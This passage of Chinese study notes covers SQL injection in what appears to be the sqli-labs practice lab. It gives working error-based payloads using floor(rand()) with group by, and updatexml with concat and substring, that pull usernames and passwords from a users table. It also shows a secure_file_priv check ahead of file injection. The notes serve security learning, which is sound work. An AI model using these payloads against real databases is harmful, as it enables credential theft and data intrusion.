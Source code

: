 页面只显示：You are in........    这是怎么回事呢？

太长了，它就不显示了

可以用 substring 解决

也可以用 concat 加上 limit 限制来解决

```sql
union select 1,count(*),concat_ws('-',(
select concat(username,"-",password) from users limit 0,1
), floor(rand(0)*2)) as a from information_schema.tables group by a
```



## 报错注入（3）

其实与 less-5 一样，只是用双引号闭合

在这一题尝试用新方法解决

1. 单引号闭合不报错，双引号闭合报错：use near '"1"" LIMIT 0,1' at line 1说明是用双引号闭合的

2. ```sql
   union select 1,2,updatexml('yemaster', substring(concat(0x7e, (select group_concat(username,'~',password) from users)),4,30),"aaa")
   ```

3. 就是比 extractvalue 多一项无用的参数



利用 updatexml() 报错注入，原理与 extractvalue() 一致

```
select updatexml('XML_document','Xpath_string','New_content') from xml
```

用于更新 xml 文件内容

同样在 xpath 中第一位改为 ~ 用于报错

# 文件注入

1. ```sql
   SHOW VARIABLES LIKE '%secure%'
   ```

2. 查看是否具有文件写入权限：

   | Variable_name            | Value |
   | ------------------------ | ----- |
   | require_secure_transport | OFF   |
   | secure_auth              | ON    |
   | secure_file_priv         | NULL  |
